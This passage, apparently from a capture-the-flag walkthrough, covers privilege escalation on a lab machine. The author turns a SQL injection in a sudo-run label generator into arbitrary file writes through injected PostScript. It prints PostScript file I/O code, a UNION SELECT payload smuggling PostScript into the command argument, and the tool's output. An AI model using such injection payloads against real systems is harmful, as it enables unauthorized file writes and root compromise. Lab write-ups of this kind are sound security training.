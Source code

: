These show up in the PDF:

![image-20240117123516345](/img/image-20240117123516345.png)

So the SQL injection works.

#### Write POC

The documentation for how to do file I/O through PostScript isn’t great, but [this Stack Overflow answer](https://stackoverflow.com/a/25702652) offers a nice POC:

```

/outfile1 (output1.txt) (w) file def
outfile1 (blah blah blah) writestring
outfile1 closefile 

/inputfile (output1.txt) (r) file def
inputfile 100 string readstring
pop
inputfile closefile

/outfile2 (output2.txt) (w) file def
outfile2 exch writestring
outfile2 closefile 

```

It write a file, then reads that file and writes the results to another file. I can start with writing a file with just the last block replacing `exch` with some static text:

```

/outfile (output.txt) (w) file def
outfile (this is a test) writestring
outfile closefile

```

Putting that into the injection:

```

neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
> 
> /outfile (output.txt) (w) file def
> outfile (this is a test) writestring
> outfile closefile
> 
> (test", 2,3,4,5,6,7'
Fetching order...
Generating PostScript file...
Generating PDF (until the printer gets fixed...)
Documents available in /tmp/tmpce7s4u1wprintgen

```
